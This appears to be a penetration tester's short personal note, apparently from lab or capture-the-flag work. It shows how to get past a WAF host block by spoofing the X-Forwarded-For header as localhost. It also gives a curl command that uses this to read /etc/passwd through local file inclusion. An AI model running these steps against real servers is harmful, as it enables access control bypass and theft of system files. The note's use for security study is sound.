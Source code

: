 ### WAF Web Application Firewall
WAF: Access Denied for this Host.
X-Forwarded-For Header
"The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."
```burpsuite - kali
X-Forwarded-For: 127.0.0.1
```
Ensure we have TWO blank lines under this (lines 8 and 9 in photo)
LFI
```bash -kali
curl http://$TARGET:13337/logs?file=/etc/passwd -H "X-Forwarded-For: localhost"
```
[[3._LFI RFI]]
#### Examples
[[GraphQL Graphiql]]
